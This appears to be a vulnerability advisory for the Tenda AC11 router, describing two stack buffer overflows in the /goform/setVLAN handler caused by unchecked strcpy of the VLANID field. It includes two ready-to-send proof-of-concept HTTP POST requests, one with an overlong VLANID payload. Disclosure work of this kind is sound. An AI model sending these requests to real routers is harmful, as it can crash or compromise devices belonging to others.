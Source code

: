 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setVLAN` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the function `sub_800CBC50` (page `/gofrom/setVLAN`) have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `VLANArea` in `v8` and `VLANID` in `v9`.
2. if `v8` is equal to `1`,`v9` copy to `v14` and jump to LABEL_6
3. In LABEL_6, `v14` will copy to a stack value `v40` by using `strcpy(v40, v14);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v40`
4. if `v8` is equal to `2`,`v9` will copy to a stack value `v37` by using `strcpy(v37, v9);`,so wo can also make stack buffer overflow in `v37`
![](./1.png)

## poc 

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=1&VLANID=aaaaaaaa&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/),[@peanuts](https://github.com/peanuts62),[@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University.
